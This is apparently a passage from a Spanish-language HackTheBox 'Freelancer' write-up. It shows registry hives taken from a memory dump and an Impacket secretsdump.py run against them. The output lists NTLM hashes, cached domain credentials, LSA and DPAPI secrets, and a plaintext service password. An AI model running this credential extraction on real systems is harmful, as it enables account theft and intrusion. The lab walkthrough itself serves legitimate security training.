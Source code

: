 ```bash
.rw-r--r-- vzon vzon  87 MB Mon Oct  7 21:22:22 2024 0xffffd3067b516000-SOFTWARE-MACHINE_SOFTWARE.reghive
.rw-r--r-- vzon vzon 312 KB Mon Oct  7 21:22:22 2024 0xffffd3067d7e9000-DEFAULT-USER_.DEFAULT.reghive
.rw-r--r-- vzon vzon  48 KB Mon Oct  7 21:22:22 2024 0xffffd3067d7f0000-SECURITY-MACHINE_SECURITY.reghive
.rw-r--r-- vzon vzon  48 KB Mon Oct  7 21:22:22 2024 0xffffd3067d935000-SAM-MACHINE_SAM.reghive
... [snip]
```

Al pasársela a `secretsdump.py` para ver si hay alguna contraseña guardada que se reutiliza o al menos su hash NTLM, veremos que hay algo curioso:

```bash
❯ secretsdump.py -system 0xffffd30679c46000-SYSTEM-MACHINE_SYSTEM.reghive -security 0xffffd3067d7f0000-SECURITY-MACHINE_SECURITY.reghive -sam 0xffffd3067d935000-SAM-MACHINE_SAM.reghive LOCAL
Impacket v0.12.0.dev1+20240411.142706.1bc283f - Copyright 2023 Fortra

[*] Target system bootKey: 0xaeb5f8f068bbe8789b87bf985e129382
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:725180474a181356e53f4fe3dffac527:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:04fc56dd3ee3165e966ed04ea791d7a7:::
[*] Dumping cached domain logon information (domain/username:hash)
FREELANCER.HTB/Administrator:$DCC2$10240#Administrator#67a0c0f193abd932b55fb8916692c361: (2023-10-04 12:55:34)
FREELANCER.HTB/lorra199:$DCC2$10240#lorra199#7ce808b78e75a5747135cf53dc6ac3b1: (2023-10-04 12:29:00)
FREELANCER.HTB/liza.kazanof:$DCC2$10240#liza.kazanof#ecd6e532224ccad2abcf2369ccb8b679: (2023-10-04 17:31:23)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:a680a4af30e045066419c6f52c073d738241fa9d1cff591b951535cff5320b109e65220c1c9e4fa891c9d1ee22e990c4766b3eb63fb3e2da67ebd19830d45c0ba4e6e6df93180c0a7449750655edd78eb848f757689a6889f3f8f7f6cf53e1196a528a7cd105a2eccefb2a17ae5aebf84902e3266bbc5db6e371627bb0828c2a364cb01119cf3d2c70d920328c814cad07f2b516143d86d0e88ef1504067815ed70e9ccb861f57394d94ba9f77198e9d76ecadf8cdb1afda48b81f81d84ac62530389cb64d412b784f0f733551a62ec0862ac2fb261b43d79990d4e2bfbf4d7d4eeb90ccd7dc9b482028c2143c5a6010
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:1003ddfa0a470017188b719e1eaae709
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xcf1bc407d272ade7e781f17f6f3a3fc2b82d16bc
dpapi_userkey:0x6d210ab98889fac8829a1526a5d6a2f76f8f9d53
[*] NL$KM 
 0000   63 4D 9D 4C 85 EF 33 FF  A5 E1 4D E2 DC A1 20 75   cM.L..3...M... u
 0010   D2 20 EA A9 BC E0 DB 7D  BE 77 E9 BE 6E AD 47 EC   . .....}.w..n.G.
 0020   26 02 E1 F6 BF F5 C5 CC  F9 D6 7A 16 49 1C 43 C5   &.........z.I.C.
 0030   77 6D E0 A8 C6 24 15 36  BF 27 49 96 19 B9 63 20   wm...$.6.'I...c 
NL$KM:634d9d4c85ef33ffa5e14de2dca12075d220eaa9bce0db7dbe77e9be6ead47ec2602e1f6bff5c5ccf9d67a16491c43c5776de0a8c6241536bf27499619b96320
[*] _SC_MSSQL$DATA 
(Unknown User):PWN3D#l0rr@Armessa199
[*] Cleaning up... 
```
